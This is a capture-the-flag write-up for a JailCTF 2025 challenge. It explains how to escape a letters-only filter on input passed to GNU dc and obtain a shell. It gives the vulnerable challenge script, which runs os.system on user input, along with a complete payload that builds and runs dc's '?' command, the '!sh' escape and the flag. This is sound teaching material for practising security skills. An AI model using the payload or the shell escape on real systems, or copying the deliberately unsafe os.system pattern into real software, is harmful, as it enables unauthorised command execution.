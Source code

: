 ```yaml
---
layout: writeup
parent: JailCTF 2025
tags: ["misc"]
---
```

```
a "desk calculator" ... using "reverse polish notation" ... yeah this was not on my bucket list for year
```

chal.py:
```python
#!/usr/bin/python3

import os

inp = input('> ')
if any(c not in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxy' for c in inp):  # they gave me no blue raspberry dawg
    print('bad. dont even try using lowercase z')
    exit(1)

with open('/tmp/code.txt', 'w') as f:
    f.write(inp)

os.system(f'/usr/bin/dc -f /tmp/code.txt')

print("stop. you're done. get out.")
```

## dc?

The core of this challenge lies within gaining RCE access within `dc`, a GNU "desk calculator" preinstalled on many linux systems.

In initial observation of [the manpage](https://www.gnu.org/software/bc/manual/dc-1.05/html_mono/dc.html), we can see that dc has a variety of commands that surround the modification of its two native types, integers and strings. Given the limited charset given by the challenge, we are restricted to certain commands within `dc`.

## The attack
Some notable commands are:
```
       x      Pops a value off the stack and executes it as a macro.  Normally it should  be
              a string; if it is a number, it is simply pushed back onto the stack.  For ex‐
              ample, [1p]x executes the macro 1p which pushes 1 on the stack and prints 1 on
              a separate line.

       ?      Reads  a  line from the terminal and executes it.  This command allows a macro
              to request input from the user.

       O      Pushes the current output radix on the stack.

       k      Pops the value off the top of the stack and uses it to set the precision.

       v      Pops one value, computes its square root, and pushes that. The precision
              value specifies the number of fraction digits in the result.

       Z      Pops a value off the stack, calculates the number of digits it has (or number
              of characters, if it is a string) and pushes that number.

       a      The mnemonic for this is somewhat erroneous: asciify. The top-of-stack is popped.
              If it was a number, then the low-order byte of this number is converted into a
              string and pushed onto the stack. Otherwise the top-of-stack was a string, and
              the first character of that string is pushed back. (This command is a GNU
              extension.)
```

### Method
The end goal is to be able to execute `sh`, which without the charset restriction can be ran with `!sh`. In order to get to this point, we can use the `?` command to manually input `!sh`. However, since `?` is also not in our charset, we can use `a` to convert an integer value to the char `?`. Since we cannot use integers or most arithmetic operators, the general approach is:

1. Start with `O` which by default the output radix is set to 10. This will push the value 10 onto the stack
2. Run `k` which will change the precision from 0->10
3. From here, we can run `O` to push 10 again, `v` to compute the square root, `Z` to calculate the number of digits (which will always be the current precision + 1 for the integer part) then `k` again. Each iteration of `OvZk` will increment the precision by one, which we can use to create an arbitrary number larger than 10. In our case, the `?` character has ASCII code of 63, so we run `OvZk` 52 times
4. Once the value on the stack is the integer 63, we can run `a` to convert it to the string `?` and then `x` to execute it
5. `x` will execute the string `?` which we can then manually input `!sh` (or really anything at this point) and get the flag

### Payload
`Ok` + `OvZk`*52 + `OvZax` = `OkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZax`

After running payload, manually input `!sh`

`jail{but_does_your_desk_calculator_have_rce?_5c9cff7b71fc447d}
`